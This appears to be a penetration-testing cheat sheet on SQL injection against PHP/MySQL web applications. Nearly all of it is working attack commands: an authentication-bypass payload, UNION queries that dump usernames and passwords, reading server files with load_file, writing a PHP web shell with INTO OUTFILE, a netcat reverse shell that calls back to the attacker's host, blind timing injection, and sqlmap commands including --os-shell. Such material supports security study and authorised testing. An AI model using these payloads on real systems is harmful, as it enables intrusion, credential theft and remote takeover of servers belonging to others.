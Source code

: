 Your desired info is probably near the end as the first load of tables are for MySQL itself.

**QUICK KILL ADMIN LOGIN**

Authentication Bypass - This essentially selects the first line of users.  If its an admin it may log you in as admin. Place this into the name input box if Admin is the first.

`wronguser' or 1=1 LIMIT 1;#`

The SQL SELECT LIMIT statement is used to retrieve records from one or more tables in a database and limit the number of records returned based on a limit value. ***TIP***: `SELECT LIMIT` is not supported in *all* SQL databases. For databases such as SQL Server or MSAccess, use the `SELECT TOP` statement to limit your results.

Going for the kill... Attempt to extract usernames and passwords. *Note* 0x3a = ':'

`http://$tgt/comment.php?id=738 union select 1,2,3,4,concat(name,0x3a,password),6 FROM users`

**Commands to Attack The Back End**
***

To read the contents of a file on target server file system

`http://$tgt/comment.php?id=-1 union select all 1,2,3,4,load_file(‘c:/windows/system32/drivers/etc/hosts’),6`

Writing to a file on the Servers File System

`http://$tgt/comment.php?id=738 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'`

Using the created backdoor to call home:

`http://$tgt/backdoor.php?cmd=nc -n $me 443 -e cmd.exe`

Blind SQL Injection using the sleep function   if the server sleeps it indicates it might be SQLi Vulnerable

`http://$tgt/comment.php?id=738-sleep(5)`

To check sql version via blind SQLi timing method... if version is equal to X then sleep 5

`http://$tgt/comment.php?id=738-sleep(5)-IF(MID(@@version,1,1)='5', SLEEP(5), 0)`

Shell via dropdown Post Parameter... AKA Proxy attack

`Lang=  'union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor4.php`

***
**SQLMAP**

Quick Examples

`sqlmap -u $tgt --crawl=1`

`sqlmap -u $tgt/discoveredinjectpoint.php?id=738 --dbms=mysql --dump --threads=5`

`sqlmap -u $tgt/discoveredinjectpoint.php?id=738 --dbms=mysql --os-shell`

`--cookie="security=low; PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"`
